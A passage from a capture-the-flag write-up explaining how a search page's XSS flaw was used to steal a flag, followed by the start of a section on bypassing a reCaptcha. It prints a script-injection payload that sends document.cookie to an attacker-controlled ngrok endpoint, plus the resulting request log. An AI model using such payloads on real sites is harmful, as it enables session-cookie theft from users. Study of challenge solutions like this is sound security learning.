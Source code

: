 **Summary**
- Get the `document.cookie` info where the flag probably is.
- Send the captured flag to a server in our control - in this case, our [ngrok](https://ngrok.com/) endpoint.
- The `no-cors` option means we can send the value but we won't get the answer, ignoring the CORS policy of the fetch site (in this case, my ngrok endpoint).
    - It is enough, since we only care for the requesting getting there.


We just need to put the (minified) payload below in the search bar.

```
A"><script>fetch("http://myngrok.ngrok.io/flag?="%2BencodeURIComponent(document.cookie), {"mode": "no-cors"});</script><input class="lst" value="B
```

(The `%2B` here is to avoid the `+` to be interpreted as a space in the query string).

And our ngrok gives:

```
GET /flag?=__gsas%3DID%3D<SOME_COOKIE_INFO> HTTP/1.1
Host: myngrok.ngrok.io
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en
Referer: http://google.us.ctf.so/
X-Forwarded-For: <SOME_IP>
X-Forwarded-Proto: http
```

Since the search page only accepts POSTs, we just need to create a poisoned form and auto-submit it with our payload.

Easy right? Not that much.

It turns out, the real challenge here is to bypass the captcha, not the XSS.

## Captcha

Wait! What?!? Captcha Bypass??? [reCaptcha](https://www.google.com/recaptcha/about/)????

That was my first thought here, and I had to take some time to abstract the real problem here: we don't have to find a flaw in the reCaptcha software to bypass it any case. We just have to bypass ONE SPECIFIC captcha run in a restricted scenario.

### Testing

It was a little tricky at first to test it.

![](https://i.imgur.com/cfZzaV8.png)

[`"Localhost is not in the list of supported domains for this site key."`](https://developers.google.com/recaptcha/docs/faq#localhost_support)
